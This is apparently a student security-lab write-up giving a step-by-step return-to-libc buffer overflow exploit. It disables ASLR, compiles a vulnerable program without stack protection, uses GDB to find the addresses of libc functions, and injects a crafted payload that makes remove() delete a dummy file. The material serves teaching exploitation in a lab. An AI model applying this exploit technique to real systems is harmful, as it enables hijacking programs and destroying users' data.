







# Lab3 - Return-to-libc Attack: Step-by-Step Guide

## 1. Disable ASLR (Address Space Layout Randomization)
```bash
sudo sysctl -w kernel.randomize_va_space=0
```
**Output**:
```
kernel.randomize_va_space = 0
```
This disables ASLR, ensuring that memory addresses remain consistent.

---

## 2. Compile the Vulnerable Program
```bash
gcc vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2
```
This compiles the vulnerable program `vuln.c` with flags that disable stack protection and enable execution on the stack.

---

## 3. Create the Target Directory and File
```bash
mkdir /tmp/dummy
touch /tmp/dummy/dummyfile
```
This creates the directory `/tmp/dummy` and the file `/tmp/dummy/dummyfile`, which is the file that we want to delete.

---

## 4. Set the Environment Variable
```bash
export DUMMY=/tmp/dummy/dummyfile
```
This sets the `DUMMY` environment variable to the path of the file to be deleted.

---

## 5. Start GDB


```bash
gdb ./vuln.out
```
This starts the vulnerable program in GDB.

---

## 6. Set a Breakpoint at the `main` Function
```gdb
(gdb) break main
```
This sets a breakpoint at the start of the `main()` function.

---

## 7. Run the Program
```gdb
(gdb) run
```
This starts the program under GDB control.

---

## 8. Find the Address of the `remove()` Function

```gdb
(gdb) print remove
```

**Output**:
```
$1 = {<text variable, no debug info>} 0xf7e71f30 <__GI_remove>
```
This retrieves the memory address of the `remove()` function in `libc`.

---

## 9. Find the Address of the `exit()` Function
```gdb
(gdb) print exit
```
**Output**:

```
$2 = {<text variable, no debug info>} 0xf7e449e0 <__GI_exit>
```
This retrieves the memory address of the `exit()` function in `libc`.

---

## 10. Find the Location of the `DUMMY` Environment Variable
```gdb
(gdb) find DUMMY
```
**Output**:


```
Searching for 'DUMMY' in: None ranges
Found 1 results, display max 1 items:
[stack] : 0xffffd93a ("DUMMY=/tmp/dummy/dummyfile")
```
This shows the memory location of the `DUMMY` environment variable on the stack.

---

## 11. Get the Actual Address of the File Path
```gdb
(gdb) x/s 0xffffd93a+6
```


**Output**:
```
0xffffd940:     "/tmp/dummy/dummyfile"
```
This command prints the exact memory address of the file path `/tmp/dummy/dummyfile`.

---

## 12. Disassemble the `main` Function
```gdb
(gdb) disas main
```
This disassembles the `main()` function to understand its structure.

---

## 13. Set a Breakpoint After the `strcpy` Call
```gdb
(gdb) break *0x804846b
```


This sets a breakpoint at the instruction after `strcpy` (or another vulnerable function where the buffer overflow occurs).

---

## 14. Construct and Inject the Payload
```gdb
(gdb) run $(python -c 'print "a"*64 + "bbbb" + "\x30\x1f\xe7\xf7" + "\xe0\x49\xe4\xf7" + "\x40\xd9\xff\xff"')
```
This constructs a payload:
- 64 'a' characters to fill the buffer.
- 4 'b' characters to overwrite the saved EBP.
- Address of `remove()` (`0xf7e71f30`) to overwrite the return address.
- Address of `exit()` (`0xf7e449e0`) to call after `remove()`.
- Address of `/tmp/dummy/dummyfile` (`0xffffd940`), which is passed as an argument to `remove()`.

---

## 15. Examine the Stack After `strcpy`
```gdb
(gdb) x/80xb $esp
```


This displays the contents of the stack, confirming the payload was injected correctly.


---

## 16. Verify the Payload Structure
   - 64 'a' characters (buffer fill)
   - 4 'b' characters (overwrite saved EBP)
   - `0xf7e71f30` (address of `remove()`)
   - `0xf7e449e0` (address of `exit()`)
   - `0xffffd940` (address of `DUMMY` string)





---

## 17. Continue Execution
```gdb
(gdb) continue
```
This continues the program's execution. The return-to-libc attack will trigger, calling `remove()` to delete the file and `exit()` afterward.

---

## 18. Exit GDB
```gdb
(gdb) quit
```
This exits GDB.

---

## 19. Verify the File Deletion
```bash
tree /tmp
```



This confirms that the file `/tmp/dummy/dummyfile` was successfully deleted, leaving only the empty directory.

---
